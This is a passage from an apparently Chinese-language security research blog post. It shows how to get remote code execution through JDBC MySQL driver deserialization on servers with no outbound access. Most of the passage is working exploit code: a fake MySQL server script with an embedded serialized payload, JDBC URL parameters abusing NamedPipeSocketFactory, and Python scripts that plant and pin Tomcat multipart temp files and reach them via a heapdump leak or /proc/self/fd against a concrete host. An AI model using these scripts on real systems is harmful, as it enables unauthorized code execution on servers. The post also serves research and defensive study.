57870000000007704000000007871007e001a7873720068c1afc1b2c1a7c0aec1a1c1b0c1a1c1a3c1a8c1a5c0aec1a3c1afc1adc1adc1afc1aec1b3c0aec1a3c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0aec1abc1a5c1b9c1b6c1a1c1acc1b5c1a5c0aec194c1a9c1a5c1a4c18dc1a1c1b0c185c1aec1b4c1b2c1b98aadd29b39c11fdb0200024c0006c1abc1a5c1b971007e00014c0006c1adc1a1c1b074001ec18cc1aac1a1c1b6c1a1c0afc1b5c1b4c1a9c1acc0afc18dc1a1c1b0c0bb7870740006c1a6c1afc1af73720054c1afc1b2c1a7c0aec1a1c1b0c1a1c1a3c1a8c1a5c0aec1a3c1afc1adc1adc1afc1aec1b3c0aec1a3c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0aec1adc1a1c1b0c0aec18cc1a1c1bac1b9c18dc1a1c1b06ee594829e7910940300014c000ec1a6c1a1c1a3c1b4c1afc1b2c1b9740058c18cc1afc1b2c1a7c0afc1a1c1b0c1a1c1a3c1a8c1a5c0afc1a3c1afc1adc1adc1afc1aec1b3c0afc1a3c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0afc194c1b2c1a1c1aec1b3c1a6c1afc1b2c1adc1a5c1b2c0bb787073720074c1afc1b2c1a7c0aec1a1c1b0c1a1c1a3c1a8c1a5c0aec1a3c1afc1adc1adc1afc1aec1b3c0aec1a3c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0aec1a6c1b5c1aec1a3c1b4c1afc1b2c1b3c0aec183c1a8c1a1c1a9c1aec1a5c1a4c194c1b2c1a1c1aec1b3c1a6c1afc1b2c1adc1a5c1b230c797ec287a97040200015b001ac1a9c194c1b2c1a1c1aec1b3c1a6c1afc1b2c1adc1a5c1b2c1b374005ac19bc18cc1afc1b2c1a7c0afc1a1c1b0c1a1c1a3c1a8c1a5c0afc1a3c1afc1adc1adc1afc1aec1b3c0afc1a3c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0afc194c1b2c1a1c1aec1b3c1a6c1afc1b2c1adc1a5c1b2c0bb78707572005ac19bc18cc1afc1b2c1a7c0aec1a1c1b0c1a1c1a3c1a8c1a5c0aec1a3c1afc1adc1adc1afc1aec1b3c0aec1a3c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0aec194c1b2c1a1c1aec1b3c1a6c1afc1b2c1adc1a5c1b2c0bbbd562af1d834189902000078700000000573720076c1afc1b2c1a7c0aec1a1c1b0c1a1c1a3c1a8c1a5c0aec1a3c1afc1adc1adc1afc1aec1b3c0aec1a3c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0aec1a6c1b5c1aec1a3c1b4c1afc1b2c1b3c0aec183c1afc1aec1b3c1b4c1a1c1aec1b4c194c1b2c1a1c1aec1b3c1a6c1afc1b2c1adc1a5c1b2587690114102b1940200014c0012c1a9c183c1afc1aec1b3c1b4c1a1c1aec1b471007e0001787076720022c1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec192c1b5c1aec1b4c1a9c1adc1a50000000000000000000000787073720074c1afc1b2c1a7c0aec1a1c1b0c1a1c1a3c1a8c1a5c0aec1a3c1afc1adc1adc1afc1aec1b3c0aec1a3c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0aec1a6c1b5c1aec1a3c1b4c1afc1b2c1b3c0aec189c1aec1b6c1afc1abc1a5c1b2c194c1b2c1a1c1aec1b3c1a6c1afc1b2c1adc1a5c1b287e8ff6b7b7cce380200035b000ac1a9c181c1b2c1a7c1b3740026c19bc18cc1aac1a1c1b6c1a1c0afc1acc1a1c1aec1a7c0afc18fc1a2c1aac1a5c1a3c1b4c0bb4c0016c1a9c18dc1a5c1b4c1a8c1afc1a4c18ec1a1c1adc1a571007e00055b0016c1a9c190c1a1c1b2c1a1c1adc194c1b9c1b0c1a5c1b3740024c19bc18cc1aac1a1c1b6c1a1c0afc1acc1a1c1aec1a7c0afc183c1acc1a1c1b3c1b3c0bb787075720026c19bc18cc1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec18fc1a2c1aac1a5c1a3c1b4c0bb90ce589f1073296c020000787000000002740014c1a7c1a5c1b4c192c1b5c1aec1b4c1a9c1adc1a575720024c19bc18cc1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec183c1acc1a1c1b3c1b3c0bbab16d7aecbcd5a99020000787000000000740012c1a7c1a5c1b4c18dc1a5c1b4c1a8c1afc1a47571007e00320000000276720020c1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec193c1b4c1b2c1a9c1aec1a7a0f0a4387a3bb34202000078707671007e00327371007e002b7571007e002f00000002707571007e002f0000000074000cc1a9c1aec1b6c1afc1abc1a57571007e00320000000276720020c1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec18fc1a2c1aac1a5c1a3c1b4000000000000000000000078707671007e002f7371007e002b7571007e002f0000000175720026c19bc18cc1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec193c1b4c1b2c1a9c1aec1a7c0bbadd256e7e91d7b4702000078700000000374000ec0afc1a2c1a9c1aec0afc1b3c1a8740004c0adc1a3740024c1afc1b0c1a5c1aec0a0c0adc1a1c0a0c183c1a1c1acc1a3c1b5c1acc1a1c1b4c1afc1b2740008c1a5c1b8c1a5c1a37571007e0032000000017671007e00437371007e002773720022c1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec189c1aec1b4c1a5c1a7c1a5c1b212e2a0a4f781873802000149000ac1b6c1a1c1acc1b5c1a578720020c1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec18ec1b5c1adc1a2c1a5c1b286ac951d0b94e08b02000078700000000173720022c1aac1a1c1b6c1a1c0aec1b5c1b4c1a9c1acc0aec188c1a1c1b3c1a8c18dc1a1c1b00507dac1c31660d1030002460014c1acc1afc1a1c1a4c186c1a1c1a3c1b4c1afc1b2490012c1b4c1a8c1b2c1a5c1b3c1a8c1afc1acc1a478703f40000000000000770800000010000000007878"
            mysql_data = ""
            payload_length = str(hex(len(payload_content) // 2)).replace('0x', '').zfill(4)
            payload_length_hex = payload_length[2:4] + payload_length[0:2]
            data_len = str(hex(len(payload_content) // 2 + 4)).replace('0x', '').zfill(6)
            data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
            mysql_data += data_len_hex + '04' + 'fbfc' + payload_length_hex
            mysql_data += str(payload_content)
            mysql_data += '07000005fe000022000100'
            conn.sendall(bytes.fromhex(mysql_data))
            print("交互完成")
        else:
            conn.sendall(bytes.fromhex(get_data(data)))

sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sk.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sk.bind(("0.0.0.0", 3306))
sk.listen(1)

while True:
    conn, addr = sk.accept()
    threading.Thread(target=process, args=(conn,)).start()
```

然后用Mysql驱动去连接FakeServer完成攻击，并且打开wireshark将攻击流量抓取

```
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class Main {
    public static void main(String[] args) throws Exception {
        String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=yes&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=root";
        String username = "root";
        String password = "root";
        try (Connection connection = DriverManager.getConnection(url, username, password)) {
            System.out.println("数据库连接成功!");
        } catch (SQLException e) {
            System.out.println("数据库连接失败!");
            e.printStackTrace();
        }
    }
}

```



跟踪TCP流将流量包导出



没错，直接导出完整的客户端和服务器的数据，因为NamedPipeSocket中使用了`RandomAccessFile`打开文件，可以在任意位置去写入及读取，因此我们无需考虑去除客户端数据的问题。

## 完成利用

获得恶意的数据包后，尝试进行不出网利用，使用以下参数（1.pcap是流量中导出的数据）

```
?autoDeserialize=yes&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=root&socketFactory=com.mysql.jdbc.NamedPipeSocketFactory&namedPipePath=1.pcap
```

运行后发现成功RCE，完成了不出网攻击



至此，完成了初步的不出网利用。说是初步利用，是因为我们需要满足以下两个条件才可以进行不出网攻击：

1. 能将恶意数据文件推送到目标服务器上
2. 能控制JDBC参数

而实际上，将恶意文件上传到目标服务器是件很麻烦的事情。因此我对此继续进行了一些探索

# 0x03 如何上传恶意数据文件到目标服务器

完成不出网利用，上传恶意数据文件（以下简称文件）是关键，可以从以下几个方面实现

## 业务功能上传

从业务功能进行上传是一个最简单的方式，例如在业务功能中实现了图片上传的功能，上传之后能将具体位置显示给我们：



这种情况下，我们只需要将文件正常上传到服务器上，然后`namedPipePath`指定为该文件就可以完成利用，这种方法相对简单我们就不过多分析。

## 临时文件 + heapdump泄漏

如果业务没有上传文件的点，我们如何进行利用呢？首先我们需要先介绍一下spring web下面的文件上传缓存机制。

spring web（或者tomcat）默认使用commons-fileupload来处理文件上传的数据包，而在上传的数据超过一定阈值时会将上传的数据从内存中缓存到临时文件，在commons-fileupload的 Builder 类的构造方法中定义了一个缓冲区大小DiskFileItemFactory.DEFAULT\_THRESHOLD（10240b）

```
public Builder() {
            setBufferSize(DiskFileItemFactory.DEFAULT_THRESHOLD);
            setPath(PathUtils.getTempDirectory());
            setCharset(DEFAULT_CHARSET);
            setCharsetDefault(DEFAULT_CHARSET);
        }
```

而上传的数据超过这个缓冲区大小后，就会被缓存到磁盘中，但不确定文件路径，`DiskFileItem`类中的代码实现：

```
    private DiskFileItem(final String fieldName, final String contentType, final boolean isFormField, final String fileName, final int threshold,
            final Path repository, final FileItemHeaders fileItemHeaders, final Charset defaultCharset) {
        this.fieldName = fieldName;
        this.contentType = contentType;
        this.charsetDefault = defaultCharset;
        this.isFormField = isFormField;
        this.fileName = fileName;
        this.fileItemHeaders = fileItemHeaders;
        this.threshold = threshold;
        this.repository = repository != null ? repository : PathUtils.getTempDirectory();
        this.tempFile = this.repository.resolve(String.format("upload_%s_%s.tmp", UID, getUniqueId()));
    }
```

可以知道PathUtils.getTempDirectory获取了一个临时目录（实际测试中使用springweb临时目录在/tmp下的tomcat的work目录中），并且拼接了一个UID值和getUniqueId()，UID是类被初始化后就固定的一个随机UUID



而getUniqueId则是自增，每次发生文件缓存都会+1

```
    private static String getUniqueId() {
        final var limit = 100_000_000;
        final var current = COUNTER.getAndIncrement();
        var id = Integer.toString(current);

        // If you manage to get more than 100 million of ids, you'll
        // start getting ids longer than 8 characters.
        if (current < limit) {
            id = ("00000000" + id).substring(id.length());
        }
        return id;
    }
```

因此最后生成的路径如下格式：

`/tmp/{tomcat_path}/work/Tomcat/localhost/ROOT/upload_{UID}_{UniqueId}.tmp`

且文件上传请求结束后会被自动调用delete方法进行删除



我们现在可以将文件通过上传缓存的方式生成在服务器上，但是有两个问题需要解决：

1. 每次请求完成就自动删除，且ID会自增，条件竞争非常困难
2. 临时文件位置随机，无法直接获取 首先是第一个问题，重点在于请求结束自动删除，那我们能不能想个办法让这个请求永远不结束呢？当然是可以的，我们从HTTP包特性入手，通过开发思维思考一下，如果请求头指定的长度设置一个很大的值，并且发起请求时实际的大小远远小于这个值，且客户端不主动断开连接，服务器是不是就应该一直等待剩余的部分完成传输（当然，可能会设置超时机制）。 直接启动一个springweb进行测试，这个springweb项目不需要有任何的控制器和路由，按照我们的思路，可以写出这样的用于产生临时文件的脚本：

```
import socket
import time

a = b'''POST / HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: multipart/form-data; boundary=xxxxxxxx
User-Agent: python-requests/2.32.3
Content-Length: 19999

--xxxxxxxx
Content-Disposition: form-data; name="file"; filename="a.txt"

{{payload}}
--xxxxxxxx--'''.replace(b"
", b"\r
").replace(b"{{payload}}", b'a' * 1024 * 11)
s = socket.socket()
s.connect(("101.201.38.162", 8812))
s.sendall(a)
time.sleep(111)
```

但是经过测试，临时文件依然被自动删除，即使客户端没有主动断开连接。这是因为虽然请求头指示的长度还没有接收完成，但是--xxxxxxxx--已经告诉服务器这个multipart包已经结束了，因此将最后一个结束标志的--去除，变成

```
POST / HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: multipart/form-data; boundary=xxxxxxxx
User-Agent: python-requests/2.32.3
Content-Length: 19999

--xxxxxxxx
Content-Disposition: form-data; name="file"; filename="a.txt"

{{payload}}
--xxxxxxxx
```

发现临时文件成功留存：



至此我们解决文件被自动删除的问题。离利用临时文件仍然需要解决文件位置未知的问题。

解决这个问题，我首先找到了第一个方案：利用heapdump泄漏。我们先发送超过10k的包，这时候由于需要缓存到临时文件，DiskFileItem被初始化，产生UID的值，而从heapdump中可以拿到这个值，甚至是临时文件的绝对路径，这样就可以确定临时文件路径了（图片是之前截图的所以ID不一样）：



当然，在我们分析heapdump的时间里面，可能已经触发了超时机制，连接被强制断开并删除临时文件了。但是我们可以预判下一个临时文件的名字，只需要修改

`/tmp/{tomcat_path}/work/Tomcat/localhost/ROOT/upload_{UID}_{UniqueId}.tmp`

中的`UniqueId` + 1即可。因此，在有heapdump泄露的情况下，假设/jdbc接受url参数进行连接，我们可以通过以下payload完成反序列化攻击，将[[unser\_payload\_hex]]修改为自己生成的恶意序列化数据即可：

```
import socket
import threading
import time

import requests

HOST = '101.201.38.162'
PORT = 8812


def cache_tmp():
    a = """4a0000000a352e372e32360018000000374a10207a5f771e00fff7c00200ff81150000000000000000000025551379067c13160d46727b006d7973716c5f6e61746976655f70617373776f726400
480000018fa20200ffffff00210000000000000000000000000000000000000000000000796f75725f757365726e616d650014f8132e0cffac071557b0a48483b8487385c36cb57465737400
0700000200000002000000
140000000353484f572053455353494f4e20535441545553
0100000103
1a000002036465660001610161016101610c3f001c000000fcffff0000001a000003036465660001610161016201620c3f001c000000fcffff0000001a000004036465660001610161016301630c3f001c000000fcffff00000005000005fe00000200""".replace(
        "
", "")
    payload_content = "[[unser_payload_hex]]"
    mysql_data = ""
    payload_length = str(hex(len(payload_content) // 2)).replace('0x', '').zfill(4)
    payload_length_hex = payload_length[2:4] + payload_length[0:2]
    data_len = str(hex(len(payload_content) // 2 + 4)).replace('0x', '').zfill(6)
    data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
    mysql_data += data_len_hex + '04' + 'fbfc' + payload_length_hex
    mysql_data += str(payload_content)
    mysql_data += '07000005fe000022000100'
    a += mysql_data
    a = b'''POST / HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: multipart/form-data; boundary=xxxxxxxx
User-Agent: python-requests/2.32.3
Content-Length: 19000

--xxxxxxxx
Content-Disposition: form-data; name="file"; filename="a.txt"

{{payload}}
--xxxxxxxx'''.replace(b"
", b"\r
").replace(b"{{payload}}", bytes.fromhex(a))
    s = socket.socket()
    s.connect((HOST, PORT))
    s.sendall(a)
    time.sleep(111)

def exp():
    url = f"http://{HOST}:{PORT}/jdbc"
    path = f"/tmp/tomcat.8080.4421570426366699945/work/Tomcat/localhost/ROOT/upload_b1bb011c_2fe4_4261_a45a_d38378819171_00000001.tmp"
    requests.get(url, params={"url": "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=yes&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=6666666666666&password=6666666666666&socketFactory=com.mysql.jdbc.NamedPipeSocketFactory&namedPipePath=" + path})

threading.Thread(target=cache_tmp).start()
time.sleep(3)
exp()
```

## 继续探索-去除heapdump泄漏条件

上面我们完成了利用临时文件进行不出网利用，但是需要依赖有heapdump泄漏的情况，实际上realworld中碰到一个有JDBC注入并且存在heapdump泄漏的环境概率并不大，我们的研究应该更贴合实际，因此我继续探索了不存在heapdump泄漏的情况下是否能进行不出网利用呢？

上面的测试中，heapdump的功能主要是为了泄漏临时文件的具体路径，因此我们需要考虑使用其它方法来确定临时文件的具体路径。

CTF玩家应该都知道，Linux下，应用程序打开一个文件，并且在没有关闭的情况下/proc/self/fd/xx会生成一个文件描述符，如果打开的是一个文件，这个文件描述符实际上指向的是这个文件的具体路径。既然这是一个Linux的特性，那spring web （或者tomcat）的临时文件机制理应也会收到影响，因此是否只需要将namedPipePath指向这个文件描述符就可以解决找不到具体路径的问题了呢？这个理论没什么问题，但是在测试的时候，我发现了个奇怪的问题：

使用上面的脚本留存缓存文件，这一步并没有问题



然后去fd下看看，居然没有这个文件存在



尝试几次仍然如此，难道这个临时文件能绕过Linux下的文件描述符的特性？显然不可能，原因是处理multipart包时，由于payload后面的--xxxxxxxx已经表示这个文件的内容已经完全结束，可能后面还有别的文件或者参数，但是也已经不关这个文件的事了，因此它被完整写入临时文件后已经被关闭了，同时文件描述符也随之消失。要是我们将payload改成如下：

```
POST / HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: multipart/form-data; boundary=xxxxxxxx
User-Agent: python-requests/2.32.3
Content-Length: 19000

--xxxxxxxx
Content-Disposition: form-data; name="file"; filename="a.txt"

{{payload}}
```

每次数据内容超过10240缓冲区大小则会写入这个文件，但是我们的结束标识一直没有出现，服务器也会一直等待属于这个文件的剩余内容，这样就造成临时文件是一直被打开的状态，也就会导致文件描述符一直存在。因此我们使用下面的exp来完成不出网反序列化利用：

```
import socket
import threading
import time
import requests

HOST = '101.201.38.162'
PORT = 8812


def cache_tmp():
    a = """4a0000000a352e372e32360018000000374a10207a5f771e00fff7c00200ff81150000000000000000000025551379067c13160d46727b006d7973716c5f6e61746976655f70617373776f726400
480000018fa20200ffffff00210000000000000000000000000000000000000000000000796f75725f757365726e616d650014f8132e0cffac071557b0a48483b8487385c36cb57465737400
0700000200000002000000
140000000353484f572053455353494f4e20535441545553
0100000103
1a000002036465660001610161016101610c3f001c000000fcffff0000001a000003036465660001610161016201620c3f001c000000fcffff0000001a000004036465660001610161016301630c3f001c000000fcffff00000005000005fe00000200""".replace(
    "
", "")
    payload_content = "[[unser_payload_hex]]"
    mysql_data = ""
    payload_length = str(hex(len(payload_content) // 2)).replace('0x', '').zfill(4)
    payload_length_hex = payload_length[2:4] + payload_length[0:2]
    data_len = str(hex(len(payload_content) // 2 + 4)).replace('0x', '').zfill(6)
    data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
    mysql_data += data_len_hex + '04' + 'fbfc' + payload_length_hex
    mysql_data += str(payload_content)
    mysql_data += '07000005fe000022000100'
    a += mysql_data
    a = b'''POST /connect HTTP/1.1
Host: 101.201.38.162:18883
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: multipart/form-data; boundary=xxxxxx
User-Agent: python-requests/2.32.3
Content-Length: 1296800

--xxxxxx
Content-Disposition: form-data; name="file"; filename="a.txt"

{{payload}}
'''.replace(b"
", b"\r
").replace(b"{{payload}}", bytes.fromhex(a) + b'0' * 1024 * 11)
    s = socket.socket()
    s.connect((HOST, PORT))
    s.sendall(a)
    time.sleep(1111111)

def exp():
    url = f"http://{HOST}:{PORT}/jdbc"
    path = "/proc/self/fd/23"
    requests.get(url, params={"url": "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=yes&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=6666666666666&password=6666666666666&socketFactory=com.mysql.jdbc.NamedPipeSocketFactory&namedPipePath=" + path})

threading.Thread(target=cache_tmp).start()
time.sleep(3)
exp()
```

至此，去除了对heapdump的依赖，完成不出网利用。

# 0x04 总结

本文探索了JDBC MySQL驱动在利用临时文件进行不出网环境下的反序列化利用，改变了攻击MySQL驱动需要外连FakeServer的传统攻击手法，这种利用方式在realworld中具有更加隐蔽的特性。而文章后半段提到的临时文件部分可以无条件将一个纯净的文件上传到目标服务器并确定位置，对于需要本地文件的攻击（如：ClassPathXmlApplicationContext加载本地XML、加载本地类文件场景、加载本地插件场景等）也是个不错的利用思路。

在先知技术沙龙上我分享了不出网攻击相关的内容，本文章更详细的介绍了利用手法。yulate师傅在议题中还介绍了很多JDBC URL绕过的trick，这是我们本次议题材料整合的项目，里面包含一些URL绕过以及不出网利用的demo以及本次议题PPT，感兴趣的师傅可以在git中获取 <https://github.com/yulate/jdbc-tricks>
